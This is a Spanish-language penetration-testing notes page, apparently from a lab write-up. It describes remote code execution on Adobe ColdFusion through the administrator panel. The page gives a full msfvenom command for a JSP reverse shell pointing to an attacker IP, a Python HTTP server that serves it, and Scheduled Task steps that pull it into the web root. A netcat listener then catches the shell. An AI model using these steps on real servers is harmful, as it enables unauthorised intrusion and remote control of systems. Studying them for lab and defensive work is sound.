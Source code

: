 [[Apuntes]]
## ¿Qué es y como funciona?

Coldfusion es una plataforma de desarrollo rápido de aplicaciones web que usa el lenguaje de programación CFML. En este aspecto, es un producto similar a ASP, JSP o PHP. ColdFusion es una herramienta que corre en forma concurrente con la mayoría de los servidores web de Windows, Mac OS X, Linux y Solaris

## RCE administrator panel

Si conseguimos acceder al Administrator del ColdFusion como el usuario Administrador y tenemos directory listing de los archivos del sistema, podemos subir un archivo malicioso que puede ser tanto ASP, JSP o PHP el cúal nos permita tener acceso al sistema victima, se puede subir mediante:

- Scheduled Tasks


![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252FsUgCkvUFJK6GRWca5gXc%252Fimagen.png%3Falt%3Dmedia%26token%3D6f0fbb0f-a725-41b4-bda3-cf69e5c77b86&width=768&dpr=4&quality=100&sign=04b9d2141ae0f3a4fa9f003ffb59bff68fd4f56c4e8a810b41b57c5bf0a13b17)

1. Entramos en Schedule Tasks y le damos a Shecule New Task

![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252Fxtl4zBTfnnlpNVby8fty%252Fimagen.png%3Falt%3Dmedia%26token%3D6893f594-76eb-4f59-ba1e-7a74b43a94a0&width=768&dpr=4&quality=100&sign=f809cf75e17e149ae5c1755aea4a96ad33e59551b8b8fca41d83879194a12158)

1. Y antes de poner los nombres, creamos con msfvenom el payload que subiremos a la máquina victima y que nos dará acceso a ella.


![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252F7XRsDZlCkTRjzrmgrNxO%252Fimagen.png%3Falt%3Dmedia%26token%3D35dc8354-908c-493d-a3af-4e73e6566834&width=768&dpr=4&quality=100&sign=4c6380761887d3cd722a879140be5da937baac594d3a2cddd6522754b3592bf5)

Seleccionamos la java/jsp_shell_reverse_tcp

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.14 LPORT=4443 -o exploit.jsp
```

1. Donde está el exploit.jsp abrimos un servidor con python para que lo descarge el ColdFusion y lo suba.


```
python3 -m http.server 9000
```

- Para saber donde se alojan los archivos, tenemos que ir a Server Settings --> Mapping


![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252FjrWLgOkKXtfXaXA2nz1q%252Fimagen.png%3Falt%3Dmedia%26token%3D271eef78-8053-4777-aa4e-8555e11488c0&width=768&dpr=4&quality=100&sign=c438c560ee091e40539e1389bbfcfbd95fb36453bf232e8d583ab545de2132c8)

Alojamiento archivos que se suben

1. Una vez ya sabemos donde se suben los archivos y hemos creado el payload, ahora toca rellenar la tarea.

![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252Fa4t66lr4HlkGQ3VBDtf1%252Fimagen.png%3Falt%3Dmedia%26token%3D97c7efa5-c4fa-4aed-bf25-74c5341407e7&width=768&dpr=4&quality=100&sign=b4073684464319bfaf6fea11acd07c7075cca33ac153fb0deea4333a15e8aed7)

Tarea programada

1. Ejecutamos la tarea para que se descarge el exploit.jsp


![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252F5ZdV1CvtuBGKrbUCglMj%252Fimagen.png%3Falt%3Dmedia%26token%3D1351ee9b-8872-4374-8c89-95ed94bb44aa&width=768&dpr=4&quality=100&sign=92e6b9d4b7dfa1e8b4a2262c60f6f21e4165ba7a928bcc388b437d45bac4d0e8)

![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252Fjz5uFBGhpsSt5qjiW3n5%252Fimagen.png%3Falt%3Dmedia%26token%3De21c1e07-f544-4e55-8d4d-d45e5589f9e4&width=768&dpr=4&quality=100&sign=57072b257b11065fa2cc933c2c8cbb8798e2efd6ded7beebe8b65e86088b5adc)

Petición GET al exploit.jsp

1. Si actualizamos el directory listing vemos que está el exploit.jsp


![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252FvfaHlE1DJ3zVRliKStRY%252Fimagen.png%3Falt%3Dmedia%26token%3Dbd5a9456-6716-4d84-b7ca-b10d0f479103&width=768&dpr=4&quality=100&sign=f1bd0b1bf048a20b9e4668d88650a8f0d5cf441aff8d713477ead3a248acec57)

1. Ponemos un listener para que espere la petición que nos dará el exploit.jsp una vez le demos click

```
rlwrap -nc -lvnp 4443 # rlwrap para tener una consola interactiva, poder hacer Ctrl+L y mover tranquilamente las flechas etc
```

![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252Fgy6VBp69LYyIyAja2OuI%252Fimagen.png%3Falt%3Dmedia%26token%3D88932704-12ff-4b7c-9e0b-7524fc2dc6aa&width=768&dpr=4&quality=100&sign=231ca974144b087c34044488b27e35e63880bbb6ae07fd7f66243af93c5b8d81)

	Shell sistema victima